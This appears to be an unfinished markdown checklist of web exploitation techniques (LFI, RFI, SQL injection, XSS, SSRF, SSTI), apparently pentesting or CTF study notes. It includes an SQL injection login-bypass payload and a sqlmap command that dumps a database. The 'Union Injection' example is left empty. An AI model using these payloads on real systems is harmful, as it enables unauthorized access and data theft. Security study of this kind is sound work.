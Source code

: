 # Check List:
- LFI (Local File Inclusion)
- RFI (Remote File Inclusion)
- [SQL Injection (all possible types, Basic/Blind/Union/Time Based etc)](WebExploitation.md)
- XSS 
- SSRF (Server Side Request Forge)
- SSTI (Serer Side Template Injection)
## SQL Injection
- ### Common payloads:
- Simple authentication bypass:
```sql
' OR 1=1;-- -
```
Union Injection:
```sql

```

- Use SQLMap:
```bash
sqlmap -r req --risk 2 --dump #from request file
```
